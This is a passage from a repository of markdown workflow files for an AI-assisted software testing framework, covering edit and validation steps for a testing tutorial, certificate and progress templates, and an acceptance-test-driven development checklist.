- Average score calculated correctly
- Certificate generated with all session data
- Certificate saved to file
- Progress file updated with completion status
- Final celebration message displayed
- All artifacts paths provided to user
- Workflow completes successfully

### ❌ SYSTEM FAILURE:

- Generating certificate without verifying all sessions complete
- Incorrect average score calculation
- Missing session data in certificate
- Not updating progress file with completion status
- Not providing artifact paths to user
- Proceeding to next step (this is final - no next step)

**Master Rule:** Verify completion, generate certificate, celebrate achievement, end workflow. This is the finale.
```

## File: `src/workflows/testarch/bmad-teach-me-testing/steps-e/step-e-01-assess-workflow.md`
```markdown
---
name: 'step-e-01-assess-workflow'
description: 'Assess what needs to be edited in the teaching workflow'

nextStepFile: './step-e-02-apply-edits.md'
workflowPath: '../'
advancedElicitationTask: '{project-root}/_bmad/core/workflows/advanced-elicitation/workflow.xml'
partyModeWorkflow: '{project-root}/_bmad/core/workflows/party-mode/workflow.md'
---

# Edit Step 1: Assess What to Edit

## STEP GOAL:

To identify what the user wants to edit in the teach-me-testing workflow and gather requirements for the modifications.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 🛑 NEVER generate content without user input
- 📖 CRITICAL: Read complete step file before action
- ✅ SPEAK OUTPUT In {communication_language}

### Role Reinforcement:

- ✅ You are a workflow architect helping with modifications
- ✅ Collaborative dialogue for understanding edit needs

### Step-Specific Rules:

- 🎯 Focus on understanding what to edit
- 🚫 FORBIDDEN to make edits yet
- 💬 Ask questions to clarify requirements

## EXECUTION PROTOCOLS:

- 🎯 Understand edit requirements
- 💾 Document what needs editing
- 📖 Prepare for edits in next step

## MANDATORY SEQUENCE

### 1. Welcome to Edit Mode

"**Edit Mode: Teach Me Testing Workflow**

What would you like to edit?

**Common edits:**

- Update session content (new concepts, updated examples)
- Modify quiz questions
- Add/remove knowledge fragments from session 7
- Update TEA resource references
- Change session durations or structure
- Update role-based examples

**Tell me what you'd like to change.**"

### 2. Gather Edit Requirements

Ask targeted questions based on their response:

**If editing session content:**

- Which session? (1-7)
- What specific content needs updating?
- Why the change? (outdated, incorrect, needs improvement)

**If editing quiz questions:**

- Which session's quiz?
- Which question(s)?
- What's wrong with current questions?

**If editing session 7 fragments:**

- Add new fragment category?
- Update existing fragment references?
- Change organization?

**If editing templates:**

- Progress template?
- Session notes template?
- Certificate template?
- What fields need changing?

**If editing data files:**

- Curriculum structure?
- Role customizations?
- Resource mappings?

### 3. Load Current Content

Based on what they want to edit, load the relevant files:

- Session step files (steps-c/step-04-session-\*.md)
- Templates (`templates/*.md` or `*.yaml`)
- Data files (data/\*.yaml)

Show user the current content.

### 4. Document Edit Plan

"**Edit Plan:**

**Target Files:**

- {list files to be modified}

**Changes Required:**

- {list specific changes}

**Reason:**

- {why these edits are needed}

Ready to proceed with edits?"

### 5. Menu

Display: **Select an Option:** [A] Advanced Elicitation [P] Party Mode [C] Continue to Apply Edits

#### Menu Handling Logic:

- IF A: Execute {advancedElicitationTask}, redisplay menu
- IF P: Execute {partyModeWorkflow}, redisplay menu
- IF C: Load, read entire file, then execute {nextStepFile}
- IF Any other: help user, redisplay menu

---

## 🚨 SUCCESS METRICS

✅ Edit requirements clearly understood, target files identified, edit plan documented, user approves plan.

**Master Rule:** Understand before editing. Get clear requirements first.
```

## File: `src/workflows/testarch/bmad-teach-me-testing/steps-e/step-e-02-apply-edits.md`
```markdown
---
name: 'step-e-02-apply-edits'
description: 'Apply modifications to the teaching workflow based on edit plan'

workflowPath: '../'
---

# Edit Step 2: Apply Edits

## STEP GOAL:

To apply the approved edits to the teach-me-testing workflow files while maintaining integrity and quality standards.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 🛑 NEVER edit without showing user the changes first
- 📖 CRITICAL: Read complete step file before action
- ✅ SPEAK OUTPUT In {communication_language}

### Role Reinforcement:

- ✅ You are a workflow architect applying modifications
- ✅ Collaborative edits with user approval

### Step-Specific Rules:

- 🎯 Focus on applying approved edits only
- 🚫 FORBIDDEN to make unapproved changes
- 💬 Show changes before applying

## EXECUTION PROTOCOLS:

- 🎯 Apply edits systematically
- 💾 Validate after each edit
- 📖 Document changes made

## MANDATORY SEQUENCE

### 1. Review Edit Plan

"**Applying approved edits to teach-me-testing workflow**

From step-e-01, we identified:
{Summarize edit plan from previous step}

Let me apply these changes systematically."

### 2. Apply Edits by Category

**For each file to be edited:**

1. Load the current file
2. Show the proposed changes (before/after)
3. Ask: "Apply this edit? [Y/N]"
4. If Y: Make the edit
5. If N: Skip this edit
6. Confirm edit applied successfully

### 3. Validate Edits

After all edits applied:

**Check:**

- Frontmatter still valid
- File references still correct
- Menu handling logic intact
- Step sequence maintained

"**Validation:**

All edits applied successfully:

- {list files modified}

Checking integrity:

- ✅ Frontmatter valid
- ✅ File references correct
- ✅ Menu logic intact
- ✅ Step sequence maintained"

### 4. Summary of Changes

"**Edit Summary:**

**Files Modified:** {count}
{List each file with changes made}

**Changes Applied:**
{Summarize what was changed}

**Workflow Status:** ✅ Edits complete, workflow intact

**Next:** You can run the workflow to test your changes, or run validation mode to check quality."

### 5. Completion

"**Edit Mode Complete!**

The teach-me-testing workflow has been updated.

**Modified files:**
{List paths to modified files}

**Recommended next steps:**

1. Run validation: `bmad run teach-me-testing -v`
2. Test the workflow: `bmad run teach-me-testing`
3. Make additional edits if needed"

**This is the final edit step - workflow ends here.**

---

## 🚨 SUCCESS METRICS

✅ Edits applied to approved files only, changes validated, workflow integrity maintained, user informed of modifications.

**Master Rule:** Show changes, get approval, apply edits, validate integrity.
```

## File: `src/workflows/testarch/bmad-teach-me-testing/steps-v/step-v-01-validate.md`
```markdown
---
name: 'step-v-01-validate'
description: 'Validate teach-me-testing workflow quality against BMAD standards'

workflowPath: '../'
checklistFile: '../checklist.md'
validationReport: '{test_artifacts}/workflow-validation/teach-me-testing-validation-{date}.md'
---

# Validate Step 1: Quality Validation

## STEP GOAL:

To systematically validate the teach-me-testing workflow against BMAD quality standards and generate a comprehensive validation report.

## MANDATORY EXECUTION RULES (READ FIRST):

### Universal Rules:

- 🛑 NEVER skip validation checks
- 📖 CRITICAL: Read complete step file before action
- ✅ SPEAK OUTPUT In {communication_language}

### Role Reinforcement:

- ✅ You are a workflow quality assurance specialist
- ✅ Systematic validation against standards

### Step-Specific Rules:

- 🎯 Focus on comprehensive validation
- 🚫 FORBIDDEN to skip any checks
- 💬 Report findings clearly

## EXECUTION PROTOCOLS:

- 🎯 Run all validation checks
- 💾 Generate validation report
- 📖 Provide remediation guidance

## MANDATORY SEQUENCE

### 1. Validation Start

"**Validating Workflow: teach-me-testing**

Running comprehensive quality checks against BMAD standards...

This will validate:

- Foundation structure
- Step file quality (12 CREATE, 2 EDIT, 1 VALIDATE)
- Template quality
- Data file completeness
- Frontmatter compliance
- Menu handling patterns
- State management
- Documentation

**Starting validation...**"

### 2. Foundation Structure Validation

**Check:**

- [ ] workflow.md exists with proper frontmatter
- [ ] Tri-modal routing logic present
- [ ] Configuration loading correct
- [ ] First step path correct
- [ ] Folder structure complete (steps-c/, steps-e/, steps-v/, data/, templates/)

Report findings: Pass/Fail for each check.

### 3. Template Validation

**Check templates/:**

- [ ] progress-template.yaml has complete schema
- [ ] All 7 sessions defined
- [ ] Session status fields present
- [ ] stepsCompleted array present
- [ ] session-notes-template.md has required sections
- [ ] certificate-template.md includes all 7 sessions

Report findings.

### 4. Step File Validation (CREATE Mode)

**For each of 12 steps in steps-c/:**

- [ ] Frontmatter valid (name, description present)
- [ ] All frontmatter variables used in body
- [ ] File references use relative paths correctly
- [ ] Menu handling follows standards
- [ ] Step goal clearly stated
- [ ] MANDATORY SEQUENCE present
- [ ] Success/failure metrics present
- [ ] File size reasonable (<250 lines recommended)

Report findings per step.

### 5. Data File Validation

**Check data/:**

- [ ] curriculum.yaml defines all 7 sessions
- [ ] role-paths.yaml has all 4 roles (QA/Dev/Lead/VP)
- [ ] session-content-map.yaml maps sessions to resources
- [ ] quiz-questions.yaml has questions for sessions 1-6
- [ ] tea-resources-index.yaml has complete documentation index

Report findings.

### 6. Content Quality Validation

**Check session steps:**

- [ ] Teaching content present and comprehensive
- [ ] Role-adapted examples present
- [ ] Quiz questions validate understanding
- [ ] TEA resource references correct
- [ ] Knowledge fragment references accurate
- [ ] Online URLs functional

Report findings.

### 7. State Management Validation

**Check continuable workflow features:**

- [ ] step-01-init checks for existing progress
- [ ] step-01b-continue loads and displays progress
- [ ] All session steps update stepsCompleted array
- [ ] Progress file schema matches template
- [ ] Session menu reads progress correctly
- [ ] Completion step verifies all sessions done

Report findings.

### 8. User Experience Validation

**Check UX:**

- [ ] Clear navigation instructions
- [ ] Progress visibility (percentage, indicators)
- [ ] Auto-save after sessions
- [ ] Resume capability
- [ ] Exit options clear
- [ ] Session descriptions helpful

Report findings.

### 9. Generate Validation Report

Create {validationReport}:

```markdown
---
workflow: teach-me-testing
validation_date: { current_date }
validator: TEA Validation Workflow
overall_status: PASS / FAIL / PASS_WITH_WARNINGS
---

# Teach Me Testing - Validation Report

**Date:** {current_date}
**Workflow Version:** 1.0.0
**Overall Status:** {status}

---

## Validation Summary

**Total Checks:** {count}
**Passed:** {pass_count}
**Failed:** {fail_count}
**Warnings:** {warning_count}

**Overall Quality Score:** {score}/100

---

## Foundation Structure

{Report findings}

## Template Quality

{Report findings}

## Step File Quality

{Report findings for all 15 steps}

## Data File Quality

{Report findings}

## Content Quality

{Report findings}

## State Management

{Report findings}

## User Experience

{Report findings}

---

## Issues Found

{List all failures and warnings}

---

## Remediation Recommendations

{For each issue, provide fix guidance}

---

## Conclusion

{Overall assessment}

**Status:** {READY_FOR_PRODUCTION / NEEDS_FIXES / PASS_WITH_MINOR_ISSUES}
```

### 10. Display Results

"**Validation Complete!**

**Overall Status:** {status}
**Quality Score:** {score}/100

**Report saved:** {validationReport}

{If PASS:}
✅ **Workflow is ready for production!**

{If FAIL:}
❌ **Issues found that need fixing.**
See report for details: {validationReport}

{If WARNINGS:}
⚠️ **Minor issues found.**
Workflow is usable but could be improved.

**Validation report generated.**"

**This is the final validation step - workflow ends here.**

---

## 🚨 SUCCESS METRICS

✅ All validation checks run, comprehensive report generated, issues identified with remediation guidance, overall status determined.

**Master Rule:** Check everything systematically, report findings clearly, provide actionable remediation.
```

## File: `src/workflows/testarch/bmad-teach-me-testing/templates/certificate-template.md`
```markdown
---
certificate_type: tea-academy-completion
user: { { user_name } }
role: { { role } }
completion_date: { { completion_date } }
started_date: { { started_date } }
total_duration: { { total_duration } }
average_score: { { average_score } }
---

# 🏆 TEA Academy Completion Certificate

---

## Certificate of Completion

**This certifies that**

## {{user_name}}

**has successfully completed the TEA Academy testing curriculum**

---

### Program Details

**Role:** {{role}}
**Started:** {{started_date}}
**Completed:** {{completion_date}}
**Total Duration:** {{total_duration}}
**Average Score:** {{average_score}}/100

---

### Sessions Completed

✅ **Session 1:** Quick Start (30 min) - Score: {{session_01_score}}
✅ **Session 2:** Core Concepts (45 min) - Score: {{session_02_score}}
✅ **Session 3:** Architecture & Patterns (60 min) - Score: {{session_03_score}}
✅ **Session 4:** Test Design (60 min) - Score: {{session_04_score}}
✅ **Session 5:** ATDD & Automate (60 min) - Score: {{session_05_score}}
✅ **Session 6:** Quality & Trace (45 min) - Score: {{session_06_score}}
✅ **Session 7:** Advanced Patterns (ongoing) - Score: {{session_07_score}}

---

### Skills Acquired

{{user_name}} has demonstrated proficiency in:

- ✅ **Testing Fundamentals:** Risk-based testing, test pyramid, test types
- ✅ **TEA Methodology:** 9 workflows, engagement models, quality standards
- ✅ **Architecture Patterns:** Fixtures, network-first patterns, data factories
- ✅ **Test Design:** Risk assessment, coverage planning, P0-P3 prioritization
- ✅ **Test Development:** ATDD red-green approach, test automation
- ✅ **Quality Assurance:** Test review, traceability, NFR assessment
- ✅ **Advanced Techniques:** 42 knowledge fragments explored

---

### Learning Artifacts

All session notes and progress tracking available at:
`{{artifacts_path}}`

---

### Next Steps

**Recommended Actions:**

1. Apply TEA principles to current project
2. Run TEA workflows (Framework, Test Design, ATDD, Automate)
3. Share knowledge with team members
4. Continue exploring knowledge fragments as needed
5. Contribute to TEA methodology improvements

---

**Generated by:** TEA Academy - Teach Me Testing Workflow
**Module:** Test Architecture Enterprise (TEA)
**Website:** <https://bmad-code-org.github.io/bmad-method-test-architecture-enterprise/>

---

🧪 **Master Test Architect and Quality Advisor**
```

## File: `src/workflows/testarch/bmad-teach-me-testing/templates/progress-template.yaml`
```yaml
---
# TEA Academy Progress Tracking
# This file tracks a learner's progress through the teaching workflow

# User Information
user: "{{user_name}}"
role: "{{role}}" # qa | dev | lead | vp
experience_level: "{{experience_level}}" # beginner | intermediate | experienced
learning_goals: "{{learning_goals}}"
pain_points: "{{pain_points}}" # optional

# Session Tracking
started_date: "{{current_date}}"
last_session_date: "{{current_date}}"

# Session Array - tracks completion status for all 7 sessions
sessions:
  - id: session-01-quickstart
    name: "Quick Start"
    duration: "30 min"
    status: not-started # not-started | in-progress | completed
    started_date: null
    completed_date: null
    score: null # 0-100
    notes_artifact: null

  - id: session-02-concepts
    name: "Core Concepts"
    duration: "45 min"
    status: not-started
    started_date: null
    completed_date: null
    score: null
    notes_artifact: null

  - id: session-03-architecture
    name: "Architecture & Patterns"
    duration: "60 min"
    status: not-started
    started_date: null
    completed_date: null
    score: null
    notes_artifact: null

  - id: session-04-test-design
    name: "Test Design"
    duration: "60 min"
    status: not-started
    started_date: null
    completed_date: null
    score: null
    notes_artifact: null

  - id: session-05-atdd-automate
    name: "ATDD & Automate"
    duration: "60 min"
    status: not-started
    started_date: null
    completed_date: null
    score: null
    notes_artifact: null

  - id: session-06-quality-trace
    name: "Quality & Trace"
    duration: "45 min"
    status: not-started
    started_date: null
    completed_date: null
    score: null
    notes_artifact: null

  - id: session-07-advanced
    name: "Advanced Patterns"
    duration: "ongoing"
    status: not-started
    started_date: null
    completed_date: null
    score: null
    notes_artifact: null

# Progress Metrics
sessions_completed: 0
total_sessions: 7
completion_percentage: 0
next_recommended: session-01-quickstart

# Workflow Continuation Tracking (for continuable workflow)
stepsCompleted: []
lastStep: ""
lastContinued: ""

# Completion Certificate
certificate_generated: false
certificate_path: null
completion_date: null
```

## File: `src/workflows/testarch/bmad-teach-me-testing/templates/session-notes-template.md`
```markdown
---
session_id: { { session_id } }
session_name: { { session_name } }
user: { { user_name } }
role: { { role } }
completed_date: { { completed_date } }
score: { { score } }
duration: { { duration } }
---

# {{session_name}} - Session Notes

**Learner:** {{user_name}} ({{role}})
**Completed:** {{completed_date}}
**Score:** {{score}}/100
**Duration:** {{duration}}

---

## Session Objectives

{{session_objectives}}

---

## Key Concepts Covered

{{key_concepts}}

---

## TEA Resources Referenced

### Documentation

{{docs_referenced}}

### Knowledge Fragments

{{knowledge_fragments_referenced}}

### Online Resources

{{online_resources}}

---

## Quiz Results

**Score:** {{score}}/100

### Questions & Answers

{{quiz_results}}

---

## Practical Examples

{{practical_examples}}

---

## Key Takeaways

{{key_takeaways}}

---

## Next Recommended Session

{{next_recommended}}

---

## Additional Notes

{{additional_notes}}

---

**Generated by:** TEA Academy - Teach Me Testing Workflow
**Session Path:** Session {{session_number}} of 7
```

## File: `src/workflows/testarch/bmad-testarch-atdd/SKILL.md`
```markdown
---
name: bmad-testarch-atdd
description: 'Generate failing acceptance tests using TDD cycle. Use when the user says "lets write acceptance tests" or "I want to do ATDD"'
---

Follow the instructions in [workflow.md](../bmad_repo/workflow.md).
```

## File: `src/workflows/testarch/bmad-testarch-atdd/atdd-checklist-template.md`
```markdown
---
stepsCompleted: []
lastStep: ''
lastSaved: ''
workflowType: 'testarch-atdd'
inputDocuments: []
---

# ATDD Checklist - Epic {epic_num}, Story {story_num}: {story_title}

**Date:** {date}
**Author:** {user_name}
**Primary Test Level:** {primary_level}

---

## Story Summary

{Brief 2-3 sentence summary of the user story}

**As a** {user_role}
**I want** {feature_description}
**So that** {business_value}

---

## Acceptance Criteria

{List all testable acceptance criteria from the story}

1. {Acceptance criterion 1}
2. {Acceptance criterion 2}
3. {Acceptance criterion 3}

---

## Failing Tests Created (RED Phase)

### E2E Tests ({e2e_test_count} tests)

**File:** `{e2e_test_file_path}` ({line_count} lines)

{List each E2E test with its current status and expected failure reason}

- ✅ **Test:** {test_name}
  - **Status:** RED - {failure_reason}
  - **Verifies:** {what_this_test_validates}

### API Tests ({api_test_count} tests)

**File:** `{api_test_file_path}` ({line_count} lines)

{List each API test with its current status and expected failure reason}

- ✅ **Test:** {test_name}
  - **Status:** RED - {failure_reason}
  - **Verifies:** {what_this_test_validates}

### Component Tests ({component_test_count} tests)

**File:** `{component_test_file_path}` ({line_count} lines)

{List each component test with its current status and expected failure reason}

- ✅ **Test:** {test_name}
  - **Status:** RED - {failure_reason}
  - **Verifies:** {what_this_test_validates}

---

## Data Factories Created

{List all data factory files created with their exports}

### {Entity} Factory

**File:** `tests/support/factories/{entity}.factory.ts`

**Exports:**

- `create{Entity}(overrides?)` - Create single entity with optional overrides
- `create{Entity}s(count)` - Create array of entities

**Example Usage:**

```typescript
const user = createUser({ email: 'specific@example.com' });
const users = createUsers(5); // Generate 5 random users
```

---

## Fixtures Created

{List all test fixture files created with their fixture names and descriptions}

### {Feature} Fixtures

**File:** `tests/support/fixtures/{feature}.fixture.ts`

**Fixtures:**

- `{fixtureName}` - {description_of_what_fixture_provides}
  - **Setup:** {what_setup_does}
  - **Provides:** {what_test_receives}
  - **Cleanup:** {what_cleanup_does}

**Example Usage:**

```typescript
import { test } from './fixtures/{feature}.fixture';

test('should do something', async ({ {fixtureName} }) => {
  // {fixtureName} is ready to use with auto-cleanup
});
```

---

## Mock Requirements

{Document external services that need mocking and their requirements}

### {Service Name} Mock

**Endpoint:** `{HTTP_METHOD} {endpoint_url}`

**Success Response:**

```json
{
  {success_response_example}
}
```

**Failure Response:**

```json
{
  {failure_response_example}
}
```

**Notes:** {any_special_mock_requirements}

---

## Required data-testid Attributes

{List all data-testid attributes required in UI implementation for test stability}

### {Page or Component Name}

- `{data-testid-name}` - {description_of_element}
- `{data-testid-name}` - {description_of_element}

**Implementation Example:**

```tsx
<button data-testid="login-button">Log In</button>
<input data-testid="email-input" type="email" />
<div data-testid="error-message">{errorText}</div>
```

---

## Implementation Checklist

{Map each failing test to concrete implementation tasks that will make it pass}

### Test: {test_name_1}

**File:** `{test_file_path}`

**Tasks to make this test pass:**

- [ ] {Implementation task 1}
- [ ] {Implementation task 2}
- [ ] {Implementation task 3}
- [ ] Add required data-testid attributes: {list_of_testids}
- [ ] Run test: `{test_execution_command}`
- [ ] ✅ Test passes (green phase)

**Estimated Effort:** {effort_estimate} hours

---

### Test: {test_name_2}

**File:** `{test_file_path}`

**Tasks to make this test pass:**

- [ ] {Implementation task 1}
- [ ] {Implementation task 2}
- [ ] {Implementation task 3}
- [ ] Add required data-testid attributes: {list_of_testids}
- [ ] Run test: `{test_execution_command}`
- [ ] ✅ Test passes (green phase)

**Estimated Effort:** {effort_estimate} hours

---

## Running Tests

```bash
# Run all failing tests for this story
{test_command_all}

# Run specific test file
{test_command_specific_file}

# Run tests in headed mode (see browser)
{test_command_headed}

# Debug specific test
{test_command_debug}

# Run tests with coverage
{test_command_coverage}
```

---

## Red-Green-Refactor Workflow

### RED Phase (Complete) ✅

**TEA Agent Responsibilities:**

- ✅ All tests written and failing
- ✅ Fixtures and factories created with auto-cleanup
- ✅ Mock requirements documented
- ✅ data-testid requirements listed
- ✅ Implementation checklist created

**Verification:**

- All tests run and fail as expected
- Failure messages are clear and actionable
- Tests fail due to missing implementation, not test bugs

---

### GREEN Phase (DEV Team - Next Steps)

**DEV Agent Responsibilities:**

1. **Pick one failing test** from implementation checklist (start with highest priority)
2. **Read the test** to understand expected behavior
3. **Implement minimal code** to make that specific test pass
4. **Run the test** to verify it now passes (green)
5. **Check off the task** in implementation checklist
6. **Move to next test** and repeat

**Key Principles:**

- One test at a time (don't try to fix all at once)
- Minimal implementation (don't over-engineer)
- Run tests frequently (immediate feedback)
- Use implementation checklist as roadmap

**Progress Tracking:**

- Check off tasks as you complete them
- Share progress in daily standup

---

### REFACTOR Phase (DEV Team - After All Tests Pass)

**DEV Agent Responsibilities:**

1. **Verify all tests pass** (green phase complete)
2. **Review code for quality** (readability, maintainability, performance)
3. **Extract duplications** (DRY principle)
4. **Optimize performance** (if needed)
5. **Ensure tests still pass** after each refactor
6. **Update documentation** (if API contracts change)

**Key Principles:**

- Tests provide safety net (refactor with confidence)
- Make small refactors (easier to debug if tests fail)
- Run tests after each change
- Don't change test behavior (only implementation)

**Completion:**

- All tests pass
- Code quality meets team standards
- No duplications or code smells
- Ready for code review and story approval

---

## Next Steps

1. **Share this checklist and failing tests** with the dev workflow (manual handoff)
2. **Review this checklist** with team in standup or planning
3. **Run failing tests** to confirm RED phase: `{test_command_all}`
4. **Begin implementation** using implementation checklist as guide
5. **Work one test at a time** (red → green for each)
6. **Share progress** in daily standup
7. **When all tests pass**, refactor code for quality
8. **When refactoring complete**, manually update story status to 'done' in sprint-status.yaml

---

## Knowledge Base References Applied

This ATDD workflow consulted the following knowledge fragments:

- **fixture-architecture.md** - Test fixture patterns with setup/teardown and auto-cleanup using Playwright's `test.extend()`
- **data-factories.md** - Factory patterns using `@faker-js/faker` for random test data generation with overrides support
- **component-tdd.md** - Component test strategies using Playwright Component Testing
- **network-first.md** - Route interception patterns (intercept BEFORE navigation to prevent race conditions)
- **test-quality.md** - Test design principles (Given-When-Then, one assertion per test, determinism, isolation)
- **test-levels-framework.md** - Test level selection framework (E2E vs API vs Component vs Unit)

See `tea-index.csv` for complete knowledge fragment mapping.

---

## Test Execution Evidence

### Initial Test Run (RED Phase Verification)

**Command:** `{test_command_all}`

**Results:**

```
{paste_test_run_output_showing_all_tests_failing}
```

**Summary:**

- Total tests: {total_test_count}
- Passing: 0 (expected)
- Failing: {total_test_count} (expected)
- Status: ✅ RED phase verified

**Expected Failure Messages:**
{list_expected_failure_messages_for_each_test}

---

## Notes

{Any additional notes, context, or special considerations for this story}

- {Note 1}
- {Note 2}
- {Note 3}

---

## Contact

**Questions or Issues?**

- Ask in team standup
- Tag @{tea_agent_username} in Slack/Discord
- Refer to `./bmm/brain/knowledge/docs_legacy/tea-README.md` for workflow documentation
- Consult `_bmad/tea/agents/bmad-tea/resources/knowledge` for testing best practices

---

**Generated by BMad TEA Agent** - {date}
```

## File: `src/workflows/testarch/bmad-testarch-atdd/bmad-skill-manifest.yaml`
```yaml
type: skill
```

## File: `src/workflows/testarch/bmad-testarch-atdd/checklist.md`
```markdown
# ATDD Workflow Validation Checklist

Use this checklist to validate that the ATDD workflow has been executed correctly and all deliverables meet quality standards.

## Prerequisites

Before starting this workflow, verify:

- [ ] Story approved with clear acceptance criteria (AC must be testable)
- [ ] Development sandbox/environment ready
- [ ] Framework scaffolding exists (run `framework` workflow if missing)
- [ ] Test framework configuration available (playwright.config.ts or cypress.config.ts)
- [ ] Package.json has test dependencies installed (Playwright or Cypress)

**Halt if missing:** Framework scaffolding or story acceptance criteria

---

## Step 1: Story Context and Requirements

- [ ] Story markdown file loaded and parsed successfully
- [ ] All acceptance criteria identified and extracted
- [ ] Affected systems and components identified
- [ ] Technical constraints documented
- [ ] Framework configuration loaded (playwright.config.ts or cypress.config.ts)
- [ ] Test directory structure identified from config
- [ ] Existing fixture patterns reviewed for consistency
- [ ] Similar test patterns searched and found in `{test_dir}`
- [ ] Knowledge base fragments loaded:
  - [ ] `fixture-architecture.md`
  - [ ] `data-factories.md`
  - [ ] `component-tdd.md`
  - [ ] `network-first.md`
  - [ ] `test-quality.md`

---

## Step 2: Test Level Selection and Strategy

- [ ] Each acceptance criterion analyzed for appropriate test level
- [ ] Test level selection framework applied (E2E vs API vs Component vs Unit)
- [ ] E2E tests: Critical user journeys and multi-system integration identified
- [ ] API tests: Business logic and service contracts identified
- [ ] Component tests: UI component behavior and interactions identified
- [ ] Unit tests: Pure logic and edge cases identified (if applicable)
- [ ] Duplicate coverage avoided (same behavior not tested at multiple levels unnecessarily)
- [ ] Tests prioritized using P0-P3 framework (if test-design document exists)
- [ ] Primary test level set in `primary_level` variable (typically E2E or API)
- [ ] Test levels documented in ATDD checklist

---

## Step 3: Failing Tests Generated

### Test File Structure Created

- [ ] Test files organized in appropriate directories:
  - [ ] `tests/e2e/` for end-to-end tests
  - [ ] `tests/api/` for API tests
  - [ ] `tests/component/` for component tests
  - [ ] `tests/support/` for infrastructure (fixtures, factories, helpers)

### E2E Tests (If Applicable)

- [ ] E2E test files created in `tests/e2e/`
- [ ] All tests follow Given-When-Then format
- [ ] Tests use `data-testid` selectors (not CSS classes or fragile selectors)
- [ ] One assertion per test (atomic test design)
- [ ] No hard waits or sleeps (explicit waits only)
- [ ] Network-first pattern applied (route interception BEFORE navigation)
- [ ] Tests fail initially (RED phase verified by local test run)
- [ ] Failure messages are clear and actionable

### API Tests (If Applicable)

- [ ] API test files created in `tests/api/`
- [ ] Tests follow Given-When-Then format
- [ ] API contracts validated (request/response structure)
- [ ] HTTP status codes verified
- [ ] Response body validation includes all required fields
- [ ] Error cases tested (400, 401, 403, 404, 500)
- [ ] Tests fail initially (RED phase verified)

### Component Tests (If Applicable)

- [ ] Component test files created in `tests/component/`
- [ ] Tests follow Given-When-Then format
- [ ] Component mounting works correctly
- [ ] Interaction testing covers user actions (click, hover, keyboard)
- [ ] State management within component validated
- [ ] Props and events tested
- [ ] Tests fail initially (RED phase verified)

### Test Quality Validation

- [ ] All tests use Given-When-Then structure with clear comments
- [ ] All tests have descriptive names explaining what they test
- [ ] No duplicate tests (same behavior tested multiple times)
- [ ] No flaky patterns (race conditions, timing issues)
- [ ] No test interdependencies (tests can run in any order)
- [ ] Tests are deterministic (same input always produces same result)

---

## Step 4: Data Infrastructure Built

### Data Factories Created

- [ ] Factory files created in `tests/support/factories/`
- [ ] All factories use `@faker-js/faker` for random data generation (no hardcoded values)
- [ ] Factories support overrides for specific test scenarios
- [ ] Factories generate complete valid objects matching API contracts
- [ ] Helper functions for bulk creation provided (e.g., `createUsers(count)`)
- [ ] Factory exports are properly typed (TypeScript)

### Test Fixtures Created

- [ ] Fixture files created in `tests/support/fixtures/`
- [ ] All fixtures use Playwright's `test.extend()` pattern
- [ ] Fixtures have setup phase (arrange test preconditions)
- [ ] Fixtures provide data to tests via `await use(data)`
- [ ] Fixtures have teardown phase with auto-cleanup (delete created data)
- [ ] Fixtures are composable (can use other fixtures if needed)
- [ ] Fixtures are isolated (each test gets fresh data)
- [ ] Fixtures are type-safe (TypeScript types defined)

### Mock Requirements Documented

- [ ] External service mocking requirements identified
- [ ] Mock endpoints documented with URLs and methods
- [ ] Success response examples provided
- [ ] Failure response examples provided
- [ ] Mock requirements documented in ATDD checklist for DEV team

### data-testid Requirements Listed

- [ ] All required data-testid attributes identified from E2E tests
- [ ] data-testid list organized by page or component
- [ ] Each data-testid has clear description of element it targets
- [ ] data-testid list included in ATDD checklist for DEV team

---

## Step 5: Implementation Checklist Created

- [ ] Implementation checklist created with clear structure
- [ ] Each failing test mapped to concrete implementation tasks
- [ ] Tasks include:
  - [ ] Route/component creation
  - [ ] Business logic implementation
  - [ ] API integration
  - [ ] data-testid attribute additions
  - [ ] Error handling
  - [ ] Test execution command
  - [ ] Completion checkbox
- [ ] Red-Green-Refactor workflow documented in checklist
- [ ] RED phase marked as complete (TEA responsibility)
- [ ] GREEN phase tasks listed for DEV team
- [ ] REFACTOR phase guidance provided
- [ ] Execution commands provided:
  - [ ] Run all tests: `npm run test:e2e`
  - [ ] Run specific test file
  - [ ] Run in headed mode
  - [ ] Debug specific test
- [ ] Estimated effort included (hours or story points)

---

## Step 6: Deliverables Generated

### ATDD Checklist Document Created

- [ ] Output file created at `{test_artifacts}/atdd-checklist-{story_id}.md`
- [ ] Document follows template structure from `atdd-checklist-template.md`
- [ ] Document includes all required sections:
  - [ ] Story summary
  - [ ] Acceptance criteria breakdown
  - [ ] Failing tests created (paths and line counts)
  - [ ] Data factories created
  - [ ] Fixtures created
  - [ ] Mock requirements
  - [ ] Required data-testid attributes
  - [ ] Implementation checklist
  - [ ] Red-green-refactor workflow
  - [ ] Execution commands
  - [ ] Next steps for DEV team
- [ ] Output shared with DEV workflow (manual handoff; not auto-consumed)

### All Tests Verified to Fail (RED Phase)

- [ ] Full test suite run locally before finalizing
- [ ] All tests fail as expected (RED phase confirmed)
- [ ] No tests passing before implementation (if passing, test is invalid)
- [ ] Failure messages documented in ATDD checklist
- [ ] Failures are due to missing implementation, not test bugs
- [ ] Test run output captured for reference

### Summary Provided

- [ ] Summary includes:
  - [ ] Story ID
  - [ ] Primary test level
  - [ ] Test counts (E2E, API, Component)
  - [ ] Test file paths
  - [ ] Factory count
  - [ ] Fixture count
  - [ ] Mock requirements count
  - [ ] data-testid count
  - [ ] Implementation task count
  - [ ] Estimated effort
  - [ ] Next steps for DEV team
  - [ ] Output file path
  - [ ] Knowledge base references applied

---

## Quality Checks

### Test Design Quality

- [ ] Tests are readable (clear Given-When-Then structure)
- [ ] Tests are maintainable (use factories and fixtures, not hardcoded data)
- [ ] Tests are isolated (no shared state between tests)
- [ ] Tests are deterministic (no race conditions or flaky patterns)
- [ ] Tests are atomic (one assertion per test)
- [ ] Tests are fast (no unnecessary waits or delays)

### Knowledge Base Integration

- [ ] fixture-architecture.md patterns applied to all fixtures
- [ ] data-factories.md patterns applied to all factories
- [ ] network-first.md patterns applied to E2E tests with network requests
- [ ] component-tdd.md patterns applied to component tests
- [ ] test-quality.md principles applied to all test design

### Code Quality

- [ ] All TypeScript types are correct and complete
- [ ] No linting errors in generated test files
- [ ] Consistent naming conventions followed
- [ ] Imports are organized and correct
- [ ] Code follows project style guide

---

## Integration Points

### With DEV Agent

- [ ] ATDD checklist provides clear implementation guidance
